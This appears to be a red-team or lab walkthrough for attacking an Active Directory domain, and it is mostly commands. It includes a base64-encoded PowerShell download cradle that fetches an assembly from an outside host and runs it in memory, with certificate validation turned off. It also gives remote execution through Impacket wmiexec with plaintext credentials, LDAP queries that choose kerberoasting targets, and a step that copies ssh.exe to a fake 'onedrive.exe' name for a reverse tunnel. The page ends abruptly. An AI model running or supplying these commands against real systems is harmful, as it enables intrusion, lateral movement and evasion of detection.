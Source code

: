 # Advanced Enumeration

On the System:

1. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`




2. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```sh
echo 'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'|iconv -f ASCII -t UTF-16LE -|base64 -w0 > cradle.txt

echo $(cat cradle.txt)
```


```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'



1. Now that we have fully interactive access in the PowerShell runspace, we will enumerate the IT domain for potential targets. To ensure the commands are executed under a Kerberos authenticated context, use the `[runas.program]` class pre-loaded into the bindshell. The convention for authenticated commands is `[runas.program]::netonly(("<domain>","<username>","<password>","<command>"))`. All other commands will be executed from the local context of the process. 
```

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"));

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json"));
```
4. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams'));
```


<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```

## Proxy Based Domain Enumeration:

6to4 proxy: Creates A rule.

or SSH Reverse Proxy. 

In a console: 
1. copy c:\Windows\system32\openssh\ssh.exe C:\ProgramData\onedrive.exe
2. C:\ProgramData\onedrive.exe <tunnel commands>
3. 



